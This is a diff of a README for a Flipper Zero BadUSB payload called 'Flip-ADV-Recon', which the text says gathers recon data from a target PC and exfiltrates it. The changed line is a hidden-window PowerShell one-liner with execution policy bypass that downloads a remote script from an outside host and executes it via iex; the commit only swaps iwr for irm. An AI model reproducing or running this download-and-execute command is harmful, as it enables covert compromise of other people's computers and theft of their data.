

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-ADV-Recon/README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Payloads/Flip-ADV-Recon/README.md
+++ b/Payloads/Flip-ADV-Recon/README.md
@@ -67,7 +67,7 @@ This program enumerates a target PC to collect as much recon data as possible fo
 Fill in either or both of these two methods to exfil your collected data
 
 ```
-powershell -w h -NoP -Ep Bypass $dc='';$db='';iwr jakoby.lol/aucrjmf | iex
+powershell -w h -NoP -Ep Bypass $dc='';$db='';irm jakoby.lol/aucrjmf | iex
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
